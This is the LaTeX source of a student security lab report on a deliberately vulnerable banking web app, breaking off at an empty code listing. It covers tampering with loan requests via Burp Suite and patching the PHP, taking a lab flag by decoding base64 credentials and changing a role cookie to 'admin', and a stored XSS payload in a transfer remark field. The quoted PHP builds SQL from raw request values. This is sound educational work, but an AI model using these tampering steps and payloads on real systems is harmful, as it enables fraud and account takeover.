\documentclass[12pt]{report}
\usepackage{fancyhdr}
\usepackage[a4paper]{geometry}
\usepackage[myheadings]{fullpage}
\usepackage{lastpage}
\usepackage{graphicx, wrapfig, subcaption, setspace, booktabs}
\usepackage[T1]{fontenc}
\usepackage[font=small, labelfont=bf]{caption}
\usepackage{fourier}
\usepackage[protrusion=true, expansion=true]{microtype}
\usepackage[english]{babel}
\usepackage{sectsty}
\usepackage{url, lipsum}
\usepackage{float}
\usepackage{listings}
\usepackage[T1]{fontenc}
\usepackage{xcolor}
\usepackage{lmodern}
\usepackage{listing}

\lstset{escapeinside={<@}{@>}}

\newcommand{\HRule}[1]{\rule{\linewidth}{#1}}
\onehalfspacing
\setcounter{tocdepth}{5}
\setcounter{secnumdepth}{5}


% header and footer

\pagestyle{fancy}
\fancyhf{}
\setlength\headheight{15pt}
\fancyhead[L]{Part 2: Web Application Vulnerabilities - 2}
\fancyhead[R]{Security Insider Lab II}
\fancyfoot[R]{Page \thepage\ of \pageref{LastPage}}

% Title page

\begin{document}
	
	\title{ \normalsize \textsc{Lab Report}
		\\ [2.0cm]
		\HRule{0.5pt} \\
		\LARGE \textbf{\uppercase{Security Insider Lab II \\
				Part 2: Web Application Vulnerabilities - 2}}
		\HRule{2pt} \\ [0.5cm]
		\normalsize \vspace*{4\baselineskip}
		\LARGE {\tt Group 5}\\}
	\date{}
	\author{
		 \\
		Abhijeet Patil \\
		Mohammad Saiful Islam\\
		Thejeswi Preetham Nagendra Kamatchi}
	\maketitle
	\newpage
	
	
	
	
	\section*{Exercise 1: Request Manipulation}
	
	
	\paragraph*{1.} {\bf Install a tool which allows you to manipulate requests of your browser. Briefly discuss your choice.}\\ 
	We are using Burp Suite as it provides support for numerous types of attack insertion points within requests, including parameters, cookies, HTTP headers, parameter names, and the URL file path. Also, it has a  coverage of over 100 generic vulnerabilities, such as SQL injection and cross-site scripting (XSS), with great performance against all vulnerabilities in the OWASP top 10. So we use it to manipulate requests of the browser.
	
	\paragraph*{2.} {\bf Briefly describe the steps to request a loan from which your victim will benefit.}\\
	
	
	\begin{enumerate}
		\item First we enable the proxy for local host in our browser (Mozilla Firefox). Then start Burp Suite and turn on the intercept under proxy tab in Burp Suite.
		\item We know the login credentials for an user from the previous task. So we use Alex's login credentials and and navigate to ''Request a loan'' page.
		\begin{figure}[H]
			
\includegraphics[width=0.75\textheight]{images/1_2reqloan.jpg}
			\caption{request a loan}
			
		\end{figure}
		\item After filling out the required information like loan amount, loan period, we submit the request.
		\item Burp suite will intercept this. We then alter the information from burp suite. We need to request a loan such that it will benefit the victim. So, we change the interest rate to  negative value and increase the loan period and loan amount to a larger value.
		
		
		\item Request intercepted using Burp Suite
		\begin{figure}[H]
			
\includegraphics[width=0.75\textheight]{images/1_2reqintrcpt.jpg}
			\caption{Request intercepted.}
			
		\end{figure}
		\item Values altered
		\begin{figure}[H]
			
\includegraphics[width=0.75\textheight]{images/1_2valuesaltered.jpg}
			\caption{Values altered.}
			
		\end{figure}
		\item Confirming the request
		\begin{figure}[H]
			
\includegraphics[width=0.75\textheight]{images/1_2confirmation.jpg}
			\caption{Confirmation of requested loan.}
			
		\end{figure}
		\begin{figure}[H]
			
\includegraphics[width=0.75\textheight]{images/1_2success.jpg}
			\caption{Loan request successful.}
			
		\end{figure}
		
	\end{enumerate}
	
	
	\paragraph*{3.}{\bf What enables this type of attack? Identify the respective source code, give the vulnerability a name, and show how to fix it. Implement your patch. Briefly summarize your changes.}\\
	An attacker can manipulate direct object references to access other objects without authorization, unless an access control check is in place. A direct object reference occurs when a developer exposes a reference to an internal implementation object, such as a file, directory, database record, or key, as a URL or form parameter.\\
	Here, the variable \$http['interest'] can be manipulated as there is no access control check on the server end. This enables to alter the request using tools like Burp Suite and then submit it to the insert query. Thus, due to the manipulation of direct object reference also known as insecure direct object reference, this attack is possible.\\\\
	{\bf Vulnerable source code\\ 
		file - htbloanconf.page}
	
	\begin{lstlisting}[breaklines=true]
$sql="insert into ".$htbconf['db/loans']." (".$htbconf['db/loans.owner'].", ".$htbconf['db/loans.amount'].", ".$htbconf['db/loans.interest'].", ".$htbconf['db/loans.period'].", ".$htbconf['db/loans.debitacc'].", ".$htbconf['db/loans.creditacc'].", ".$htbconf['db/loans.time'].") values(".$_SESSION['userid'].",".$http['loan'].","<@\colorbox{yellow}{.\$http['interest'].}@>",".$http['period'].",".($http['debitacc'] ^ $xorValue).",".($http['creditacc'] ^ $xorValue).", now())";
mysql_query($sql, $db_link);

</tr>
<tr>
<td>Interest rate</td>
<td>
<?php
print "<b>"<@\colorbox{yellow}{.\$http['interest'].}@>"&nbsp;%</b>\n";
print "<input type=\"hidden\" name=\"interest\" value=\""<@\colorbox{yellow}{.\$http['interest'].}@>"\">";
?>
</td>
</tr>
<tr><td>&nbsp;</td><td>&nbsp;</td></tr>
<tr>
	\end{lstlisting}
	
	
	Fixing the vulnerability - Access check 
	
	There is no access control check at the server end for the above manipulation. The attacker, by using tools like Burp Suite can modify the values, which are then accepted by the insert query to execute. But, we can block this attempt by specifying a variable value check at server end. 
	By specifying the reference to value in the configuration file on the server, we can patch this vulnerability.\\\\
	{\bf Fixed insert query}\\
	{\bf file - htbloanconf.page }\\
	
	\begin{lstlisting}[breaklines=true]
$sql="insert into ".$htbconf['db/loans']." (".$htbconf['db/loans.owner'].", ".$htbconf['db/loans.amount'].", ".$htbconf['db/loans.interest'].", ".$htbconf['db/loans.period'].", ".$htbconf['db/loans.debitacc'].", ".$htbconf['db/loans.creditacc'].", ".$htbconf['db/loans.time'].") values(".$_SESSION['userid'].",".$http['loan'].","<@\colorbox{yellow}{.\$htbconf['bank/interest'].}@>",".$http['period'].",".($http['debitacc'] ^ $xorValue).",".($http['creditacc'] ^ $xorValue).", now())";
mysql_query($sql, $db_link);

</tr>
<tr>
<td>Interest rate</td>
<td>
<?php
print "<b>"<@\colorbox{yellow}{.\$htbconf['bank/interest'].}@>"&nbsp;%</b>\n";
print "<input type=\"hidden\" name=\"interest\" value=\""<@\colorbox{yellow}{.\$htbconf['bank/interest'].}@>"\">";
?>
</td>
</tr>
<tr><td>&nbsp;</td><td>&nbsp;</td></tr>
<tr>
	\end{lstlisting}
	Now the final value that would be executed by the insert query will be that from the configuration file on the server. So, even if the attacker alters the value by intercepting it, still, it won't affect the end result on the server end. This, is in with assumption that we do have validation and other secure mechanisms on the server such that the attacker cannot access the configuration file.\\
	
	\begin{figure}[H]
		
\includegraphics[width=0.7\textheight,height=0.25\textheight]{images/1_3corrected1.jpg}
		\caption{Loan request page.}
	\end{figure}
	
	\begin{figure}[H]
		
\includegraphics[width=0.7\textheight]{images/1_3corrected2.jpg}
		\caption{Burpsuit interception and alteration.}
	\end{figure}
	
	\begin{figure}[H]
		
\includegraphics[width=0.7\textheight,height=0.25\textheight]{images/1_3corrected3.jpg}
		\caption{Loan confirmation page, Alteration did not work.}
	\end{figure}

	\paragraph*{4.}{\bf You should be a Request Manipulation expert now. Connect to your Lab's network. Find the vulnerable web-server. Apply your knowledge and capture the flag.}\\
	
	Using zenmap, we found the target server at 192.168.1.102. The source code of the index page is folloing:
	
	\begin{figure}[H]
		
\includegraphics[width=0.7\textheight,height=0.4\textheight]{images/1_4sourcecode.jpg}
		\caption{Source code of index.}
	\end{figure}
	
	In the source code, we found an encoded string, which was instructed to use in case of maintenance. We examined the code and found it was encoded with base64 algorithm. After using online based decoding tool, we got the username and password to enter to the maintenance page.
	\begin{figure}[H]
		
\includegraphics[width=0.7\textheight,height=0.4\textheight]{images/1_4maintainance.jpg}
		\caption{Successfully entered to maintenance page.}
	\end{figure}
	
	Inspecting the maintenance page with burpsuite, we found a cookie has been used as 'role=maintenance'. Simply changing the cookie to 'admin' gave us the access to the admin page where we found the flag.
	\begin{figure}[H]
		
\includegraphics[width=0.7\textheight,height=0.4\textheight]{images/1_4admin.jpg}
		\caption{Flag found.}
	\end{figure}
	
	
	\newpage
	
	\section*{Exercise 2: Cross Site Scripting - XSS}
	
	\paragraph*{1.}{\bf Briefly explain what is an XSS attack in your own words?}\\
	
	Cross-site Scripting (XSS) refers to client-side code injection attack wherein an attacker can execute malicious scripts (also commonly referred to as a malicious payload) into a legitimate website or web application.  By leveraging XSS, an attacker does not target a victim directly. Instead, an attacker would exploit a vulnerability within a website or web application that the victim would visit, essentially using the vulnerable website as a vehicle to deliver a malicious script to the victim’s browser.
	
	\paragraph*{2.} {\bf Perform an XSS attack that opens a window with a nice message while another user uses his account. Briefly describe the required actions.}\\
	
	In order to perform an XSS attack that opens a window displaying a message, we need to identify all insecure user defined variables in the web application and how to input them. This includes hidden or non-obvious inputs such as HTTP parameters, POST data, hidden form field values, and predefined radio or selection values.  In our case, we have identified the remark field as such input vector. By injecting the script <script>alert("Welcome back")</script> we can display the welcome back message.\\
	We enter the required details on the Transfer Funds page and the script in the Remark field.
	\begin{figure}[H]
		
\includegraphics[width=0.75\textheight]{images/2_2transferfund.jpg}
		\caption{Transfer fund page}
		
	\end{figure}
	Message displayed after account details are checked.
	\begin{figure}[H]
		
\includegraphics[width=0.75\textheight]{images/2_2welcomeback.jpg}
		\caption{The script executed!}
		
	\end{figure}
	Script inserted in database.
	\begin{figure}[H]
		
\includegraphics[width=0.75\textheight]{images/2_2databasescript.jpg}
		\caption{Script in database}
		
	\end{figure}
	
	\paragraph*{3.}{\bf What obvious checks did the developers miss to apply?}\\
	
	The developers have left out validation checks. There needs to be input validation checks to block special characters. This would help in not executing scripts and displaying messages. Thus, by validating and sanitizing the values passed into the input vectors the developers can make sure such XSS attacks are foiled. 
	
	\paragraph*{4.}{\bf Identify the respective source code and eliminate the vulnerability/ies. Briefly summarize your changes.}\\
	{\bf Vulnerable source code}\\
	{\bf file - htbtransfers.page}\\
	\begin{lstlisting}[breaklines=true]
